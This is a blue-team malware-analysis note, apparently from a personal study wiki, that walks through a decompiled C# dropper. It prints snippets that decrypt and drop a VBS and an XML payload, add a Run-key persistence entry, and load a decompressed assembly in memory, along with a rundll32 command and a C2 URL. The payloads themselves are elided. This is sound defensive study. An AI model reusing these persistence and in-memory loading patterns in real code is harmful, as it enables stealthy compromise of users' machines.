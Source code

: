 ```yaml
---
{"dg-publish":true,"permalink":"/cards/blue-team/malware-analysis/c-sharp-malware-analysis/","tags":["malware"]}
---
```


[[atlas/malware\|malware]] 
### Introduction 
---
In a C# when performing static analysis by getting the strings - the output is usually cleaner no junk unlike C or C++ binaries.

![Pasted image 20240620200434.png|350](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240620200434.png)

The **mscorlib** is a series of .NET libraries that can be imported to C# - in a compiled language such as C, C++, C# and more - the compiler translates the code into a machine code - however C# takes one more step - the **common language runtime** it is a single set of machine code for many types of languages, so every binary created using the .NET framework will go under the CLT - the **C# compiler** will create what is called **Intermediate Language**, it will acts as a broker between the compiler and the **CLR**.

![Pasted image 20240620211429.png](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240620211429.png)
## dnSpy
---
It will translate the immediate language as closely to the source code as possible:

![Pasted image 20240621184359.png|450](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240621184359.png)

The **EmbedDLL** is the filename when it was compiled but the name now is different.

```C#
// Line 1
byte[] array = SHA256.Create().ComputeHash(Encoding.UTF8.GetBytes("p0w3r0verwh3lm1ng!"));     
// Line 2
string text = new StreamReader(new MemoryStream(Cryptor.AES_Decrypt(Convert.FromBase64String("Very Long B64 here"), array))).ReadToEnd();

// Line 3
File.WriteAllText(Environment.GetEnvironmentVariable("public") + "\\embed.xml", text);

// Line 4
string text2 = new StreamReader(new MemoryStream(Convert.FromBase64String("B64"))).ReadToEnd();

// Line 5
File.WriteAllText("C:\\Users\\Public\\Documents\\embed.vbs", text2);
```

- `Line 1` - Hashes the string that is encoded in `UTF-8` using `SHA256` .
- `Line 2` - Decodes the Base64 uses `Line 1` value a symmetric key to decrypt the decoded base64
- `Line 3` - Creates a file in the public directory name `embed.xml` with the value from `Line 2` variable name `text`.
- `Line 4` - Decodes Base64 
- `Line 5` - Creates a VBscript name `embed.vbs` with the contents of `text2` from `Line 4` in the public document directory.

```C#
try
			{
				RegistryKey.OpenBaseKey(RegistryHive.CurrentUser, RegistryView.Registry64).OpenSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run", true).SetValue("embed", "C:\\Users\\Public\\Documents\\embed.vbs");
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex.Message);
			}
```

The whole code establishes persistence by running the `embed.vbs` everytime the user logs on.
###  Running a DLL
---
Running a `.dll` is not possible as they don't have a main function like an executable file instead it contains functions called by other programs however we can use the built-in tool by Windows name `rundll32 file.dll, func_name`:

![Pasted image 20240621192723.png](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240621192723.png)


```C
rundll32 Malware.cryptlib64.dll,embed
```

Looking at the directories:

![Pasted image 20240621193145.png](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240621193145.png)

It opens the msbuild.exe to build the `embed.xml` and the `.xml` file contains:

![Pasted image 20240621193302.png](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240621193302.png)
It decodes a base64 and invokes what is the result from it and looking at Wireshark it seems to contact this domain:

```
http://srv.masterchiefsgruntemporium.local/en-us/index.html
```

![Pasted image 20240621200458.png](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240621200458.png)

At the registry editor:

![Pasted image 20240621195928.png](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240621195928.png)

A deep dive to the code:

```C#
// Line 0
var oms = new System.IO.MemoryStream();

var ds = new System.IO.Compression.DeflateStream(new System.IO.MemoryStream(System.Convert.FromBase64String(('Very long'));

var by = new byte[1024];

var r = ds.Read(by, 0, 1024);

while (r > 0) { 
oms.Write(by, 0, r);

r = ds.Read(by, 0, 1024);
}
```

- `Line 1` - Decodes the Base64 encoded string
- `Line 2` - Initialize a byte variable with a size of 1024
- `Line 3` - It reads the value of `ds`  and then uses the `by` to store the decompressed data, the `0` is the offset meaning data is stored in index 0 then specifies the maximum value to read from the stream.
- `Line 4` - Writes a specified number of bytes into a _something_ - the explanation is the same for `Read` as for the parameters passed.

```C#
System.Reflection.Assembly.Load(oms.ToArray()).EntryPoint.Invoke(0, new object[] { new string[]{ } });
```

The ‘something’ is actually from `Line 0` which is a memory stream — the `oms` creates a memory stream and the `Write` function writes it into the memory stream and then is invoked.

- The `System.Reflection.Assembly.Load`  - Load everything into memory bypassing EDR and Antivirus.
- The `oms.ToArray()` value will represent the entry point of the assembly indicated by the `EntryPoint` 
- The `.Invoke` is similar to PowerShell `iex`.
### Questions and Problems
---
So what is the purpose of the malware? (Note: I did not perform basic/advanced analysis — went straight to dnSpy)

The indicators for me are these:

- It contacts the domain ‘http://srv.masterchiefsgruntemporium.local/en-us/index.html’
- It makes a POST request — see **Wireshark Image** which is more likely that the dropper is telling the server ‘Hey I successfully compromised the system’
## Conclusion
---

